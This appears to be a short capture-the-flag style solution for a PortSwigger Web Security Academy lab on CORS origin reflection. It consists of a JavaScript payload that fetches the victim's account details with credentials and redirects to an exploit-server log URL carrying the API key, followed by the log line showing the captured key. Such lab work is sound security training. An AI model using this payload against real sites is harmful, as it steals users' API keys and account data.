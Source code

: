 ### CORS vulnerability with basic origin reflection

```
<script>
    fetch('https://acc51f361e18076480b18f7400cb00e1.web-security-academy.net/accountDetails', {
        credentials: 'include',
    })
        .then(response => response.json())
        .then(data => {
            location = '/log?key=' + data.apikey;
        });

</script>
```
###API Key Via Log
```
"GET /log?key=C6jmr5ha0rCuLJLJwF2Advyo5Ww6jjEi HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/888822"
```
